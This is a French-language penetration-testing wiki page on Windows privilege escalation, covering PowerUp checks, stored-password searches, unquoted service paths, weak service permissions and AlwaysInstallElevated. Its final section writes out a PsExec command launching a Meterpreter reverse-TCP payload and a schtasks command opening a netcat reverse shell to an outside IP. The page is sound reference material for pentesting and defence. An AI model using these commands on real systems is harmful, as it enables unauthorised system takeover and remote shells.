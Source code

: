 ```yaml
---
title: Elévation de priviléges (Windows)
permalink: /Elévation_de_priviléges_(Windows)/
---
```


# Elévation de priviléges (Windows)


The following elements are based on <http://toshellandback.com/2015/11/24/ms-priv-esc/>

## PowerSploit

Le module [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) de PowerSploit permet de faire la plupart des contrôles ci-dessous de manière complétement automatisée.

```text
Import-Module Privesc
Invoke-AllChecks
```

## Vulnérabilités systèmes

Il est possible de trouver des vulnérabilités non patchées sur le système. L'outil [Windows Exploit Suggester (Tool)](https://github.com/GDSSecurity/Windows-Exploit-Suggester) facilite cette vérification.

## Mot de passes

De nombreux fichiers peuvent contenir des mots de passes sensibles. La suite PowerUp dispose des fonctions suivantes pour trouver certains d'entre eux (tous sont appelés avec Inboke-AllChecks):

```text
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```

Voir [Stored Credentials (Pentestlab)](https://pentestlab.blog/2017/04/19/stored-credentials/).

## Trusted Service Paths

Si le "Service path" d'un service n'est pas mis entre quote il est possible d'effectuer une attaque. Pour l'exemple on considère le Service Path suivant:

``` text
C:\Program Files\Some Folder\Service.exe
```

Windows va essayer d'appeler les programmes suivant, jusqu'à ce que l'un d'eux soit identifé:

``` text
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```

Ceci peut conduire à une compromission s'il est possible de créer `C:\Program.exe` ou `C:\Program` `Files\Some.exe`

[WMIC](/WMIC "wikilink") peut être utilisé pour contrôler ce point:

``` text
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

On peut utiliser [icacls](/icacls "wikilink") pour vérifier les permissions:

``` text
icacls "C:\Program Files (x86)\Privacyware"
```

On peut ensuite relancer le service:

``` text
sc stop PFNet
sc start PFNet
```

Si on a pas les privilèges pour redémarrer le service, on peut essayer de redémarrer le serveur.

## Modifier un service Windows

Avec de la chance il est possible de modifier un service. L'outil [accesschk](/accesschk "wikilink") peut être utilisé pour vérifier ceci:

``` text
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

On peut regarder les propriétés du service PFNet

``` text
sc qc PFNet
```

Il est parfois possible de changer le binaire lui même.

## AlwaysInstallElevated
Regarder si l'option `AlwaysInstallElevated` est active. Cette option permet à un utilisateur lambda d'installer des logiciels comme s'il disposait des droits systèmes.

``` text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Voir [Always Install Elevated](https://pentestlab.blog/2017/02/28/always-install-elevated/)

## Alternatives à RunAs

On est parfois dans des situations où on a:

-   Un shell non interactif et non privilégié sur un serveur
-   Le mot de passe administrateur du serveur
-   Pas de possibilité de se connecter à distance avec ce mot de passe

Dans ce cas il est possible d'executer des commandes avec une des méthodes suivantes.

### PsExec

Il faut avoir uploaddé [PsExec](/PsExec "wikilink"). Ensuite on peut exécuter la commande suivante:

``` bash
PsExec \\MACHINE -u user -p password C:\target\encrypted_meterpreter_reverse_tcp_80.exe
```

### schtasks

Il est possible de créer une "scheduled task" et passer le mdp admin sur la ligne de commande.

``` bash
schtasks /create /sc once /tr "nc.exe -e cmd.exe 192.168.30.156 443" /tn MASUPERTACHE /st 00:00:00 /ru user /rp password
schtasks /run /tn MASUPERTACHE
```

## Ressources

### Outils

-   [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) pour identifier des possibilité d'élévation de priviléges.
-   [BypassUAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) pour contourner l'UAC.
-   Attaque [Hot Potato](https://foxglovesecurity.com/2016/01/16/hot-potato/) (MS16-075)
-   [Windows Exploit Suggester (Tool)](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

### Documents

-   [Encylopaedia of Windows Privilege Escalation (Video)](https://www.youtube.com/watch?v=kMG8IsCohHA)
-   [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
-   [All roads lead to SYSTEM (PDF)](https://labs.mwrinfosecurity.com/system/assets/760/original/Windows_Services_-_All_roads_lead_to_SYSTEM.pdf)
-   [Elevating privileges by exploiting weak folder permissions](http://www.greyhathacker.net/?p=738)
-   [Windows Privilege Escalation Vectors](http://toshellandback.com/2015/11/24/ms-priv-esc/Common)
-   [Abusing Token Privileges For Windows Local Privilege Escalation](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)



